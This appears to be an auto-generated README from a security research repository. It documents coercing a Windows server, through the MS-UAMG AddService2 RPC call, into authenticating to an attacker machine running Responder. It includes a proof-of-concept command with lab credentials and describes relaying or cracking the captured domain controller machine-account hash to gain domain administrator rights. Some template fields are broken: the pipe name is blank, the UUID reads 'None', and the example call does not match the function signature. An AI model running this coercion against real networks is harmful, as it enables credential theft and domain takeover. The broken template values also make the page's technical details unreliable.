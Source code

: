 # MS-UAMG - Remote call to IUpdateServiceManager2::AddService2 (opnum 18)

## Summary

 - **Protocol**: [[MS-UAMG]: Update Agent Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-uamg/aa15d914-ca63-450c-904e-6b3ebd17b441)

 - **Protocol UUID**: None

 - **Protocol version**: 0.0

 - **SMB Named pipe**: ``

 - **Function name**: [`IUpdateServiceManager2::AddService2`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-uamg/e2d037e7-b25e-40f0-bb90-3f6071085d1d)

 - **Function operation number**: `18`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-UAMG`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-uamg/aa15d914-ca63-450c-904e-6b3ebd17b441) protocol (with uuid `None` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-UAMG`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-uamg/aa15d914-ca63-450c-904e-6b3ebd17b441) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-UAMG]: Update Agent Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-uamg/aa15d914-ca63-450c-904e-6b3ebd17b441) and allows to call RPC functions of this protocol. We will then call the remote [`IUpdateServiceManager2::AddService2`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-uamg/e2d037e7-b25e-40f0-bb90-3f6071085d1d) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
IUpdateServiceManager2::AddService2('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT AddService2(
   [in] BSTR serviceID,
   [in] LONG flags,
   [in] BSTR authorizationCabPath,
   [out, retval] IUpdateServiceRegistration** retval
 );
```

## References

 - Documentation of protocol [MS-UAMG]: Update Agent Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-uamg/aa15d914-ca63-450c-904e-6b3ebd17b441

 - Documentation of function `IUpdateServiceManager2::AddService2`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-uamg/e2d037e7-b25e-40f0-bb90-3f6071085d1d